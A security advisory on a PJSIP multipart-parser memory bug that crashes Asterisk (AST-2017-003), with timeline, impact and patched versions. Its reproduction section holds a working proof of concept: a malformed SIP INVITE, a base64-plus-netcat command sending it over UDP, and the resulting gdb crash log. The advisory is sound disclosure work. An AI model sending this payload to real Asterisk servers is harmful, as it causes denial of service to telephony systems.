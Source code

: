 # Out of bound memory access in PJSIP multipart parser crashes Asterisk

- Authors: 
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Asterisk 14.4.0 running `chan_pjsip`, PJSIP 2.6
- References: AST-2017-003
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2017-02-asterisk-pjsip-multi-part-crash>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2017-003.html>
- Timeline:
    - Report date: 2017-04-13
    - Digium confirmed issue: 2017-04-13
    - Digium patch and advisory: 2017-05-19
    - PJSIP added patch by Digium: 2017-05-21
    - Enable Security advisory: 2017-05-23

## Description

A specially crafted SIP message with a malformed multipart body was found to cause a segmentation fault.

## Impact

Abuse of this vulnerability leads to denial of service (DoS), and potentially remote code execution (RCE), in Asterisk when `chan_pjsip` is in use. This vulnerability is likely to affect other code that makes use of PJSIP.

## How to reproduce the issue

We started Asterisk by running `$PREFIX/asterisk/sbin/asterisk -fc`. Then we made use of the following SIP message which was sent to Asterisk over UDP to reproduce the issue:

    INVITE sip:2565551100@one.example.com SIP/2.0
    Via: SIP/2.0/UDP sip.example.com;branch=7c337f30d7ce.1
    From: "Alice, A," <sip:bob@example.com>
    To: Bob <sip:bob@example.com>
    Call-ID: 602214199@mouse.wonderland.com
    CSeq: 1 INVITE
    Contact: Alice <sip:alice@mouse.wonderland.com>
    content-type: multipart/mixed;`boundary=++

    --
    --++=AAA
    xxx
    --+

Note that the above SIP message only contains new lines (i.e. `\n`) and no carriage returns (i.e. `\r`). We sent this message by making use of netcat as follows:

    echo 'SU5WSVRFIHNpcDoyNTY1NTUxMTAwQG9uZS5leGFtcGxlLmNvbSBTSVAvMi4wClZpYTogU0lQLzIuMC9VRFAgc2lwLmV4YW1wbGUuY29tO2JyYW5jaD03YzMzN2YzMGQ3Y2UuMQpGcm9tOiAiQWxpY2UsIEEsIiA8c2lwOmJvYkBleGFtcGxlLmNvbT4KVG86IEJvYiA8c2lwOmJvYkBleGFtcGxlLmNvbT4KQ2FsbC1JRDogNjAyMjE0MTk5QG1vdXNlLndvbmRlcmxhbmQuY29tCkNTZXE6IDEgSU5WSVRFCkNvbnRhY3Q6IEFsaWNlIDxzaXA6YWxpY2VAbW91c2Uud29uZGVybGFuZC5jb20+CmNvbnRlbnQtdHlwZTogbXVsdGlwYXJ0L21peGVkO2Bib3VuZGFyeT0rKwoKLS0KLS0rKz1BQUEKeHh4Ci0tKw==' | base64 -d - | nc -u localhost 5060

The following is a log from running Asterisk in gdb:

    gdb --args asterisk -c

    ....

    Asterisk Ready.
    Program received signal SIGSEGV, Segmentation fault.
    [Switching to Thread 0x7fffd6b85700 (LWP 2625)]
    0x00007ffff783fd4c in parse_multipart_part (pool=0x1dff930, 
        start=0x7ffff0004359 "--++=Discussion of Mbone Engineering Issues\ne=mbone@somewhere.com\nc=IN IP4 224.2.0.1/127\nt=0 0\nm=audio 3456 RTP/AVP 0\na=rtpmapt...\n--+", 
        len=18446744073709551615, pct=0x1dffd60) at ../src/pjsip/sip_multipart.c:435
    435             while (p!=end && *p!='\n') ++p;

The issue appears to be due to a loop that keeps running until the wrong memory location is read. This leads to a memory access violation. This issue is to be found within `parse_multipart_part` at `pjsip/sip_multipart.c:435`.

This issue was found using [AFL](http://lcamtuf.coredump.cx/afl/), while fuzzing PJSIP. 

## Solutions and recommendations

Apply fix issued by Asterisk, upgrade to Asterisk 13.15.1, 14.4.1 or 13.13-cert4.

If making use of PJSIP, apply the patch in revision 5594. See <https://trac.pjsip.org/repos/ticket/2017>.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

